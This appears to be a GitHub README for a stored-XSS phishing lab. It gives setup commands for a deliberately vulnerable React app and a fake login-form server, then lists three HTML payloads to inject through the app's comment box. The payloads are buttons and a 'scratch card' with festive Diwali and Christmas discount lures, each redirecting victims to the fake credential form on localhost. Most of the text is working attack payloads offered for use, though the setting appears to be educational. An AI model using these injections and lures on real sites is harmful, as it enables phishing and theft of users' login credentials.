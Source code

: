 ### ✅ Step 1: Start the Vulnerable React App
(www.github.com/Bh-Abhiram/stored-xss)

# React Frontend
cd stored-xss
npm install
npm start

# Backend
cd backend
node server.js
```

---

### ✅ Step 2: Start the Fake Form Server
(www.github.com/Bh-Abhiram/fake-form)

# Backend for fake server
cd fake-form
node server.js

# Serve the fake login page
npx serve .  # (inside /fake-form directory)
```

> ⚠️ Ensure you're in the directory where `fake-form.html` exists before running `npx serve .`.


## 🎯 XSS Payloads (Phishing Components)

Below are all the payloads used to inject via the comment box in the vulnerable React app.


### 1. 🧪 Simple Redirect Button

<button onclick="window.location.href='http://localhost:5001/fake-form.html'">Click Me</button>



### 2. 🎉 Diwali + Christmas Offer Button

<button onclick="window.location.href='http://localhost:5001/fake-form.html'" style="padding: 10px 20px; background-color: #ff9800; color: white; border: none; border-radius: 8px; font-weight: bold; cursor: pointer;">
  🎉 Click here to get exclusive Diwali + Christmas Offer! 🎁 Apply coupon automatically 🎯
</button>


### 3. 🎁 Scratch Card Surprise

<div style="padding: 15px; border: 2px dashed #f39c12; background-color: #fff3cd; border-radius: 10px; text-align: center;">
  <h3 style="color: #e67e22;">🎉 Scratch & Win Festive Offer!</h3>
  <p>Click below to reveal your surprise Diwali + Christmas discount! 🎁</p>
  <button onclick="window.location.href='http://localhost:5001/fake-form.html'" style="margin-top: 10px; padding: 10px 20px; background-color: #d35400; color: white; border: none; border-radius: 5px;">Reveal Offer</button>
</div>

